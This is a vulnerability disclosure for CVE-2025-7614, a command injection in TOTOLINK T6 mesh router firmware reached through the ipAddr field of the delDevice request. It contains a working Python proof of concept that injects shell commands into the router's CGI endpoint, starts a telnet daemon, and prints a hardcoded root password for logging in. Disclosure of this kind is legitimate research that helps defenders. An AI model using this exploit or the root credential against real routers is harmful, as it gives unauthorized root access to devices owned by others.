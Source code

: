 # [CVE-2025-7614](https://www.cve.org/CVERecord?id=CVE-2025-7614)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `delDevice`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `delDevice`. The `ipAddr` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](5/1.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](5/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](5/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"delDevice",
        "ipAddr":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://youtu.be/txZ1jVMwVDI)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.